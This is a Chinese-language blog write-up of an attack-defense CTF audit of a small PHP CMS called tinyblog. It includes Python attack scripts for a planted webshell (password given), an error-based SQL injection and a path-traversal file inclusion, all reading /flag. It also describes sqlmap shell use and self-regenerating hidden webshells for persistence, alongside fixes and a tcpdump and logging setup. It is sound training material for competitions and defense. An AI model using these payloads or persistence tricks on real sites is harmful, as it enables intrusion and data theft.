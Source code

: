 ```yaml
---
layout: post
title: CTF tinyblog代码审计
category: security
tags: [代码审计]
keywords: 代码审计,AWD
description: CTF tinyblog代码审计
---  
```


## CTF tinyblog代码审计  
      
本篇原创文章首发[安全客](https://www.anquanke.com/post/id/100991)  
前段时间参加了某次CTF线下赛，大多数比赛都是采用主流CMS系统，比如wordpress、pgpcms、dedecms等等，如果对主流CMS漏洞比较熟悉的话可以迅速定位漏洞，发起攻击。而这次比赛采用了小众自写CMS的方式，注重现场快速代码审计。本文将介绍CTF线下赛AWD模式的一些常见套路，以及对tinyblog的代码审计思路。  
  

**一、预留后门**  
比赛开始，一般比赛方为了比赛的观赏性，一般都会预留后门，这样场上可以迅速打起来，展示画面比较好看，不然过了好几轮都没动静会比较尴尬。迅速找后门的套路一般是将比赛源代码首先备份下来，备份很关键，后面可能在修复漏洞或者被其他队伍攻击的时候服务会挂掉，没有备份很难恢复过来。利用webshell检测工具D盾、河马等对备份进行扫描，一般都可以发现预留后门：   
![ctf1](/assets/themes/images/tinyblog/1.PNG)  
查看一下预留后门内容：  
![ctf2](/assets/themes/images/tinyblog/2.PNG)  
虽然做了变形，但还是可以明显看出来是一句话木马，密码：abcde10db05bd4f6a24c94d7edde441d18545，尝试用菜刀去连：   
![ctf3](/assets/themes/images/tinyblog/3.PNG)  
在根目录下就可以得到flag内容。所以发现后门后需要迅速将自己的后门删掉，同时利用预留后门迅速发起第一波攻击，用菜刀手工连接显然是来不及的，因此需要自动化的攻击脚本：  

	1.	def backdoor(host):  
	2.	    r = requests.post(url="http://%s/Upload/index.php"%host,data={"abcde10db05bd4f6a24c94d7edde441d18545":"print('>>>'.file_get_contents('/flag').'<<<');"})  
	3.	    flags = re.findall(r'>>>(.+?)<<<',r.content)  
	4.	    if flags:  
	5.	        return flags[0]  
	6.	    else:  
	7.	        return "error pwn!" 


  
**二、后台SQL注入**  
接下来，对各种用户交互的地方进行渗透测试，发现在用户登录处存在SQL注入漏洞，在登录名出加’进行测试：    

![ctf5](/assets/themes/images/tinyblog/5.PNG)  
发现报错：  
![ctf6](/assets/themes/images/tinyblog/6.PNG)  
估计存在SQL注入的可能性比较大，审计一下源代码，在Model/Admin.php第16行发现SQL拼接，并且没有任何防护措施：  
![ctf7](/assets/themes/images/tinyblog/7.PNG)   
因此这里可以直接用SQLmap跑：  
![ctf8](/assets/themes/images/tinyblog/8.PNG)  
然后利用--sql-shell选项，执行 select load_file(‘/flag’)即可获得flag：  
![ctf9](/assets/themes/images/tinyblog/9.PNG)   
这里注意一下sqlmap的缓存机制，因为flag每一轮都会变化，如果新一轮继续直接跑的话获得的flag仍然是上一轮的，因此每轮还需要增加--flush-session参数。  
当然也可以直接现场编写payload：  
  
	1.	def sqli(host):  
	2.	    r = requests.post(url="http://%s/?p=admin&a=login"%host,data={"email":"'||(SELECT updatexml(1,concat(0x7e,(select load_file('/flag')),0x7e),1))||'","password":"pwd123"})  
	3.	    flags = re.findall(r'~(.+?)~',r.content)  
	4.	    if flags:  
	5.	        return flags[0]  
	6.	    else:  
	7.	        return "error pwn!"  

修复的话，需要将Admin.php中出问题的代码用预编译的方式进行修复，即：   

	1.	//fix by tinyfisher  
	2.	$oStmt = $this->oDb->prepare("SELECT email, password FROM Admins WHERE email = ? LIMIT 1");  
	3.	$oStmt->execute($sEmail); 


**三、文件包含**  

这个漏洞利用黑盒测试是很难测出来，必须通过代码审计才能发现，这里我主要用的工具是seay的源代码审计工具，首先将备份文件自动审计一下：  
![ctf12](/assets/themes/images/tinyblog/10.PNG)   
这里发现漏洞并不多，可以一个一个跟进去看一下，问题出现在Engine/Router.php的第21行，直接include $sTemplatePath，而：
$sTemplatePath = ROOT_PATH . 'Template/' . $aParams['template'];
所以可以通过控制$aParams['template']来达到任意文件读取。  
![ctf13](/assets/themes/images/tinyblog/11.PNG)  
我们来全局查找一下这个参数：  
![ctf14](/assets/themes/images/tinyblog/12.PNG)    
发现在index.php的33行找到该参数    
![ctf15](/assets/themes/images/tinyblog/13.PNG)   
根据'template' => (!empty($_GET['t']) ? $_GET['t'] : 'pc')，get 参数中如果t为空，则t默认值为pc，因此我们可以控制t，进而控制$aParams['template']，来达到文件包含的效果，payload：/?t=../../../../../../../flag  
![ctf16](/assets/themes/images/tinyblog/14.PNG)   
自动攻击脚本：  

	1.	def include(host):  
	2.	    r = requests.get(url="http://%s/?t=../../../../../../flag"%host)  
	3.	    flags = re.findall(r'^(.+?)<',r.content)  
	4.	    if flags:  
	5.	        return flags[0]  
	6.	    else:  
	7.	        return "error pwn!"   

修复的话，过滤掉“.”和“/”来快速达到修复效果：
$sTemplatePath = str_replace(array(".","\/"), "", $sTemplatePath);  

**四、权限维持**  

对于上面的漏洞，如果其他队伍修复了就没有办法再次利用，因此需要进行权限维持，不然后期就再也得不到分了。常见的权限维持手段是“不死马”，也就是上传一个php文件不断生成webshell：  
![ctf18](/assets/themes/images/tinyblog/15.PNG)   
访问这个php文件之后，会在目录下生成一个.config.php的一句话木马，之所以叫.config.php一方面是隐藏文件，另一方面config这个名字容易掩护自己。里面的内容之所以做了变形处理，也是为了防止其他选手“借刀杀人”，利用自己的shell去攻击其他队伍。  

php中ignore_user_abort（） 可以实现当客户端关闭后仍然可以执行PHP代码，可保持PHP进程一直在执行，可实现所谓的计划任务功能与持续进程，只需要开启执行脚本，除非 apache等服务器重启或有脚本有输出，该PHP脚本将一直处于执行的状态，因此就可以一直生成一句话木马，用来维持权限。  
  

**五、借刀杀人**  

比赛当中如果一直被高手打，而又找不到漏洞所在，有没有其他手段可以缩小差距？我们可以监控流量和日志来找到攻击payload，然后利用这个payload攻击其他队伍。比如发现自己被种上了不死马，没有办法杀掉怎么办？那就继续将这个不死马发扬光大，一般攻击者上传的文件路径和内容都是一致的，你被种了不死马意味着在其他队伍的相同位置下也存在不死马，所以直接去利用他得分吧。  

流量监控这块，可以在靶机上抓一下流量：  
tcpdump –s 0 –w flow.pcap port xxxx  
然后在自己的机器上去分析flow.pcap这个文件，一般就可以看到其他队伍的攻击payload，web和pwn都可以使用这个方法。  


![ctf19](/assets/themes/images/tinyblog/16.png)   


日志监控这块主要是为了网站访问记录，便于后续的问题排查，就是把各种字段的数据记录下来，包括请求的文件、时间、IP、访问的文件、POST的内容等等。  

	1.	date_default_timezone_set('Asia/Shanghai');  
	2.	$ip        = $_SERVER["REMOTE_ADDR"];   //访问IP  
	3.	$filename  = $_SERVER['PHP_SELF'];  //访问的文件  
	4.	$parameter = $_SERVER["QUERY_STRING"];  //查询的字符串  
	5.	$method    = $_SERVER['REQUEST_METHOD']; //请求方法  
	6.	...  
	7.	$time      =  date('Y-m-d H:i:s',time()); //请求时间  
	8.	$post      = file_get_contents("php://input",'r'); //接收POST数据  
	9.	$others    = '**********************************************************************';  
	10.	$logadd    = '访问时间：'.$time.'访问IP:'.$ip.'请求方法：'.$method.' '.'访问链接：'.$filename.'?'.$parameter."\r\n";...  
	11.	//记录写入  
	12.	$fh = fopen("log.txt", "a");  
	13.	fwrite($fh, $logadd);  
	14.	fwrite($fh,print_r($_COOKIE, true)."\r\n");  
	15.	fwrite($fh,$others."\r\n");  
	16.	fclose($fh); 


  


附：  
比赛源代码下载  
链接：https://pan.baidu.com/s/1bqZbLi3 密码：fagg  

